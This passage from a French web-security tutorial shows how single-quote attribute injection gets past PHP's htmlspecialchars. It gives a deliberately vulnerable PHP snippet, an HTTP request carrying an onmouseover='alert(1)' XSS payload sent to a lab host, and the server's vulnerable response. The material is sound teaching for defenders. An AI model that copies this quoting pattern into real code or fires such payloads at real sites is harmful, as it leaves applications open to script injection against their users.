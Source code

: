 Protégeant ainsi l'application :&#x20;

![](<../../../../.gitbook/assets/image (27).png>)

#### Cas n°2

Cet exemple est sensiblement le même, mais l'ordre d'utilisation des caractères `"` et `'` au sein du code PHP a été ici modifié :&#x20;

```php
<!DOCTYPE html>
<html lang="fr">
  <head>
    <title>Attribut "safe" HTML - "value"</title>
  </head>
  <body>
     <p><?php  echo "<input type='text' name='safeHTML' value='" . htmlspecialchars($_GET["param"]) . "'>"; ?></p>
  </body>
</html>
```

```http
GET /minipoc/htmlspecialchars/?param=whatever%27%20onmouseover=%27alert(1) HTTP/1.1
Host: 192.168.56.101
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Connection: close
```

```html
HTTP/1.1 200 OK
Server: Apache/2.4.38 (Debian)
Connection: close
Content-Type: text/html; charset=UTF-8

<!DOCTYPE html>
<html lang="fr">
  <head>
    <title>Attribut "safe" HTML - "value"</title>
  </head>
  <body>
     <p><input type='text' name='safeHTML' value='whatever' onmouseover='alert(1)'></p>
  </body>
</html>
```

Cette fois, l'application reste vulnérable :&#x20;
